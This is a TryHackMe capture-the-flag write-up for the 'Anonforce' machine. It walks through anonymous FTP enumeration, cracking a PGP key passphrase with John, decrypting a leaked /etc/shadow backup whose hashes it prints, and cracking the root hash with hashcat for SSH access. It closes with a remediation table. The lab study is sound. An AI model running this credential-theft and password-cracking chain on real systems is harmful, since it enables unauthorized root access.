




# Anonforce — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.66.157.185 | **Attacker IP:** 192.168.146.25

## Machine info


## Summary
**Anonforce** is built around anonymous FTP access that exposes the entire root filesystem for reading, plus a world-writable directory containing a passphrase-protected PGP key and a PGP-encrypted backup. Cracking the PGP passphrase unlocks a backup that turns out to be a copy of `/etc/shadow`, whose root password hash is then cracked directly, giving SSH access as root.

**Attack chain:** Anonymous FTP Enumeration (full filesystem read) → PGP Passphrase Cracking (John) → Encrypted Backup Decryption (leaked /etc/shadow) → Root Hash Cracking (hashcat) → SSH as Root

## 1. Reconnaissance

```
nmap -p- -Pn -sV -sC -oN scan.txt 10.66.157.185
Nmap scan report for 10.66.157.185
Host is up (0.050s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
| drwxr-xr-x   17 0        0            3700 Oct 11 02:46 dev
| drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
| drwxr-xr-x   19 0        0            4096 Aug 11  2019 lib
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 lib64
| drwx------    2 0        0           16384 Aug 11  2019 lost+found
| drwxr-xr-x    4 0        0            4096 Aug 11  2019 media
| drwxr-xr-x    2 0        0            4096 Feb 26  2019 mnt
| drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread [NSE: writeable]
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 opt
| dr-xr-xr-x   96 0        0               0 Oct 11 02:46 proc
| drwx------    3 0        0            4096 Aug 11  2019 root
| drwxr-xr-x   18 0        0             540 Oct 11 02:46 run
| drwxr-xr-x    2 0        0           12288 Aug 11  2019 sbin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 srv
| dr-xr-xr-x   13 0        0               0 Oct 11 02:46 sys
|_Only 20 shown. Use --script-args ftp-anon.maxlist=-1 to see all.
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.146.25
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:f9:48:3e:11:a1:aa:fc:b7:86:71:d0:2a:f6:24:e7 (RSA)
|   256 73:5d:de:9a:88:6e:64:7a:e1:87:ec:65:ae:11:93:e3 (ECDSA)
|_  256 56:f9:9f:24:f1:52:fc:16:b7:7b:a3:e2:4f:17:b4:ea (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. Anonymous FTP Enumeration

The anonymous FTP session exposes the full filesystem. Browsing `/home` reveals a single user account, `melodias`, whose home directory holds `user.txt`:

```
ftp> get user.txt
local: user.txt remote: user.txt
226 Transfer complete.
```



The `notread` directory flagged as world-writable by nmap holds two files that shouldn't be exposed: a passphrase-protected PGP private key (`private.asc`) and a PGP-encrypted backup (`backup.pgp`):

```
ftp> mget *
mget backup.pgp [anpqy?]? y
226 Transfer complete.
mget private.asc [anpqy?]? y
226 Transfer complete.
```

## 3. Credential Recovery & Privilege Escalation

The PGP private key is passphrase-protected. Cracking it with John:

```
gpg2john private.asc > pgp_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt pgp_hash.txt

Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
xbox360          (anonforce)     
```

The passphrase `xbox360` imports the key and decrypts the backup, which turns out to be a copy of `/etc/shadow`:

```
gpg --import private.asc
gpg: key B92CD1F280AD82C2: secret key imported
```

```
gpg --decrypt backup.pgp > backup_decrypted
gpg: encrypted with elg512 key, ID AA6268D1E6612967, created 2019-08-12
      "anonforce <melodias@anonforce.nsa>"
```

```
cat backup_decrypted
root:$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:18120:0:99999:7:::
melodias:$1$xDhc6S6G$IQHUW5ZtMkBQ5pUMjEQtL1:18120:0:99999:7:::
```

The root hash is cracked directly with hashcat:

```
hashcat --identify root_hash
The following hash-mode match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   1800 | sha512crypt $6$, SHA512 (Unix)                             | Operating System
```

```
hashcat -m 1800 root_hash /usr/share/wordlists/rockyou.txt

$6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycIm6a.bsOIBp0DwXVb9XI2EtULXJzBtaMZMNd2tV4uob5RVM0:hikari

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: $6$07nYFaYf$F4VMaegmz7dKjsTukBLh6cP01iMmL7CiQDt1ycI...b5RVM0
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
```





## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Anonymous FTP is enabled and serves the entire root filesystem | Disable anonymous FTP login, or restrict the FTP chroot to a dedicated directory that never exposes the OS filesystem |
| A world-writable directory (`notread`) stored a passphrase-protected PGP key and an encrypted backup of `/etc/shadow` readable by anyone | Never store credential backups or key material in a location reachable by anonymous/unauthenticated access; restrict permissions to the owning user only |
| The PGP key passphrase (`xbox360`) and the root password hash were both crackable with a standard wordlist (rockyou.txt) | Enforce strong, non-dictionary passphrases for key material and system account passwords |
